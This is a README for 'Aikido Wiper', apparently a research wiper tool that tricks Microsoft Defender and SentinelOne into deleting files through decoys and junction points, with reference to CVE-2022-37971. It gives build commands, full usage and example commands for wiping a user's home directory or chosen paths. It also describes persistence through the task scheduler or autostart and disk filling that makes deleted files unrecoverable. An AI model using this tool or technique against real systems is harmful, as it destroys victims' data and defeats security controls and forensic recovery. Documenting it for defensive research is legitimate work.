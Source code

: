 # Aikido Wiper
## Installation
### Aikido Wiper Library
```bash
pip install <repo_path>
```
or
```bash
python setup.py install
```

### Aikido Wiper Tool
Make sure you installed the Aikido Wiper Library and then run:
```bash
pyinstaller --onefile wiper_tool/wiper.py
```

## General Description
Aikido Wiper is a next-gen wiper that manipulates EDRs and anti viruses in order to delete files.
## Usage
The Aikido Wiper offers two options to begin with:
```cmd
cmd> .\wiper.exe -h
usage: wiper.exe [-h] [-q] {PROXY_DELETION,ERASE_DISK_TRACES} ...

Aikido Wiper - Next gen wiping

optional arguments:
  -h, --help            show this help message and exit
  -q, --quiet           If specified, the wiper will run in the background

mode:
  {PROXY_DELETION,ERASE_DISK_TRACES}
```
* `PROXY_DELETION` - Specifies that you want to wipe something.
* `ERASE_DISK_TRACES` - Specifies that the wiper should fill the free space on the disk completely with a huge file, delete the file, and repeat this process a few times. This option mainly exists for the wiper to be able to use this feature in order to make deleted files unrestorable after one of the exploits is exploited and a reboot occurs.

If `PROXY_DELETION` is chosen then a few other options are available:
```cmd
cmd> .\wiper.exe PROXY_DELETION -h
usage: wiper.exe PROXY_DELETION [-h] [-p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}]
                                [-etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}]
                                [--decoy-root-dir DECOY_ROOT_DIR]
                                {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS} ...

optional arguments:
  -h, --help            show this help message and exit
  -p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}, --proxy {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}  
                        The proxy security control to use
  -etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}, --erase-traces-point {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}
                        When to execute the part of the wiping that fills the disk to remove traces of deleted files       
  --decoy-root-dir DECOY_ROOT_DIR
                        The path in which all the decoys will be placed in case of a usage of a JunctionSwitchProxy        

deletion_target:
  {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS}
    ALL_USER_DATA       Try to delete the home directory of a certain user
    ALL_FILES_UNDER_PATH
                        Try to delete all the files under the certain path
    CUSTOM_PATHS        Try to delete custom paths
```
The mandatory option to choose is the deletion target.
* `ALL_USER_DATA` requires the name of the target user. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_USER_DATA Admin
```
* `ALL_FILES_UNDER_PATH` requires the path to the target directory. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_FILES_UNDER_PATH C:\Users\Admin
```
This option is not relevant to run against Windows Defender & Defender for Endpoint since the exploit for them does not support specific files deletion
* `CUSTOM_PATHS` requires a path to a file that contains a list separated by line breaks and contains the paths to try to delete. The paths can be directories or files. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION CUSTOM_PATHS .\custom_paths.txt
```
The exploit for Windows Defender & Defender for Endpoint does not support specific files deletion. Therefore, the custom paths file can contain only paths to directories.

### Default Behavior With Mandatory Arguments Only
If you give the wiper only the mandatory arguments, which are the operation mode, probably `PROXY_DELETION`, along with the deletion target, then the default behavior will be as the following:
* The wiper will create a decoy directory in the root path of the Windows drive of the computer.
* The wiper will create the specially crafted paths inside the decoy directory and create the decoy files.
* The wiper will keep open handles to the decoy files until the EDR or the AV is forced to give up on deleting them and instead marks them for deletion for after the next reboot.
* The wiper will write a task to the task scheduler that will run the wiper in the `ERASE_DISK_TRACES` mode right after the reboot.
* After the reboot the target files or directories will be deleted and the wiper will start the process of filling up the disk a few times.

### Optional Behavior With Optional Arguments
#### `-p` / `--proxy`
Lets you choose the deletion proxy class to use. By default, the class is chosen according to the EDR / AV installed on the computer.
* `MicrosoftDefenderDeleteProxy` - Exploits CVE-2022-37971.
* `SentinelOneDeleteProxy` - Exploits <TBD>
#### `-etp` / `--erase-traces-point`
Lets you choose the point in time in which the erase disk traces trick should occur. In other words, the point in time when the wiper starts to fill up the disk to no space for a few times.
* `RIGHT_AFTER` - Should occur right after the exploit is being exploited with no reboot (not relevant for `MicrosoftDefenderDeleteProxy` or `SentinelOneDeleteProxy` but maybe for future exploits)
* `TASK_SCHEDULER_REBOOT` - The wiper should erase disk traces after reboot while using the task scheduler persistency method.
* `AUTOSTART_REBOOT` - The wiper should erase disk traces after reboot while using the autostart directory persistency method.
#### `--decoy-root-dir`
The exploits require a creation of decoy malicious files in order to make the AV / EDR try to delete them and then right before the deletion turn the decoys' root directory into a junction point to the Windows drive. This parameter lets you choose where to create the root directory for the decoys which are used for the exploits against the EDRs / AVs. The default directory is a directory with a uuid name in the Windows drive.



